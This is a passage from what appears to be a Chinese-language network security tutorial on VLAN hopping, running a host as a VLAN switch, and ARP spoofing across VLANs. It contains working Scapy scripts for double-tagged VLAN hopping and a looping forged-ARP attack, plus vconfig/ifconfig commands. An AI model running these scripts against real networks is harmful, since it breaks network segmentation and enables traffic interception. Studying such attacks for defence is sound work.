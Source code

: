 **0x05 VLAN Hopping**

因为VLAN不具备安全特性，一方面标记VLAN取决于包含VLAN id的数据包头部，使用Scapy可以很容易创建这样的数据包。现在让我们的电脑连接到VLAN1，并且尝试去ping VLAN2上的其他主机。

```
#!/usr/bin/python    
 
from scapy.all import *   
 
packet = Ether(dst="c0:d3:de:ad:be:ef") / 
                Dot1Q(vlan=1) / 
                Dot1Q(vlan=2) / 
                IP(dst="192.168.13.3") / 
                ICMP()    
 
sendp(packet)
```

        首先我们设定在数据包的头部当中，包含我们的VLAN标记，再加上一个目的主机地址。交换机将会移除第一个标记，并不决定如何处理该数据包，当它看到第二个标记VLAN id 2 的时候，则决定转发到这个vlan。如果交换机连接到其他通过堆叠启用的VLAN交换机，这种攻击只会是成功的，否则它们就是使用的基于端口的VLAN。

**<br>**

**0x06 Let’s Play Switch**

Linux可以运行在许多嵌入式网络设备上；因此凭借Linux操作系统，人们可以把自己的电脑变成一台功能齐全的VALN交换机，这并不令人惊奇。你只需要vconfig这种工具就够了。在根据你的操作系统安装所需的数据包后，通过以下的命令，你可以将你的主机加入到另一个VLAN环境中。<br>

```
vconfig add eth0 1
```

然后你必须记住启动新设备，并给它一个VLAN网络中的IP地址。<br>

```
ifconfig eth0.1 192.168.13.23 up
```



**0x07 ARP Spoofing Over VLAN Hopping**

VLAN会限制对同一VLAN的端口的广播流量，因此我们不能在默认情况下应对所有的ARP请求，就像在第一个ARP spoofing例子中看到的那样，必须每隔几秒就向受害者告诉我们的MAC地址。除了我们对每个数据包进行了标记和加之的目的VLAN，下面的代码是通用的。

```
#!/usr/bin/python    
 
import time
from scapy.all import sendp, ARP, Ether, Dot1Q    
 
iface = "eth0"
target_ip = '192.168.13.23'
fake_ip = '192.168.13.5'
fake_mac = 'c0:d3:de:ad:be:ef'
our_vlan = 1
target_vlan = 2   
 
packet = Ether() / 
                Dot1Q(vlan=our_vlan) / 
                Dot1Q(vlan=target_vlan) / 
                ARP(hwsrc=fake_mac,
                        pdst=target_ip,
                        psrc=fake_ip,
                        op="is-at")    
 
while True:
        sendp(packet, iface=iface)
        time.sleep(10)
```
